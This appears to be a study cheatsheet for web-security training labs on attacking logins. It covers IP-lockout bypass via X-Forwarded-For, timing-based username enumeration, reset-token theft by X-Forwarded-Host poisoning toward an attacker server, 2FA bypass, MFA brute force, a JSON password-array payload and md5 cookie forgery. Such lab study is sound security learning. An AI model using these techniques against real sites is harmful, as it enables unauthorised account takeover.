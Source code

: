 # Authenthication / Brute-Force CHEATSHEET + IMPORTANT LABS

## Key Terms

```bash
X-Forwarded-For  -> bypass ip based brute-force protection
X-Forwarded-Host -> <OUR-SV>
Burp Macros
```

## Walkthrough - Most Important Labs

- [Username-enumeration-via-response-timing+ip-blocked-bypass-via-X-Fowarded-For](Username-enumeration-via-response-timing+ip-blocked-bypass-via-X-Fowarded-For.md)
  
- [Brute-forcing-a-stay-logged-in-cookie-(cookie-easy-to-reproduce-username+md5+b64)](Brute-forcing-a-stay-logged-in-cookie-(cookie-easy-to-reproduce-username+md5+b64).md)

- [Offline-password-cracking](Offline-password-cracking.md)


 ## Metodology
<br>


> Brute force users
```
 -> Cluster Bomber Attack -> Grep Extract -> e.g: invalid username/password
      -> ¿username already exists? 
      -> <USERNAME> + <VERY-LONG-PASSWORD> -> show time completed in respose
      -> Sometimes, when attempting to log in as an **existing** user, the server will lock the account after X failed attempts. Create a wordlist that repeats each username 5–10 times 
      -> json? -> try an array of password = brute force in a single request
      -> md5? -> while read -r i; do print  "$i" | md5sum | cut -d ' ' -f1; done < portswigger-password.txt > portswigger-pass-md5sum.txt
```
<br>

> Change password?
```  
  -> Brute-force the current password and in the new password field enter <pass1> <pass2>
      > If the current password is correct, it will show an error message because your new passwords do not match	
```
<br>
    
> Forgot password? 
```
    -> Reuse temporal token 			
	  -> X-Forwarded-Host: <exploit-sv> -> token en nuestro email
```
<br>

> Cookie predecible?
```
    -> <username>:<password-hash> base64
    -> <username>:<password+timestamp-hash>
    -> Hash? -> find the type with tools like john-the-ripper,hashid,crackstation(online)...
```
<br>

> 2FA?
```
    -> Intentar evitar la 2º verificación, ej -> 1º login + GET /my-account?username=carlos
    -> login1 (wiener) + login2 (send token to carlos) -> brute force mfa
	  -> macro + brute force mfa
```
<br>

> LOGIN BLOCKED?
```
- json? -> try an array of password = brute force en una sola request, eg -> {"username":"carlos","password":["foo1","foo2","foo3..."]} 
- IP based block? -> Pitchforked attack ->  X-Forwarded-For: <IP-INTRUDER+1> + <USERNAME> + <PASSWORD> 
```



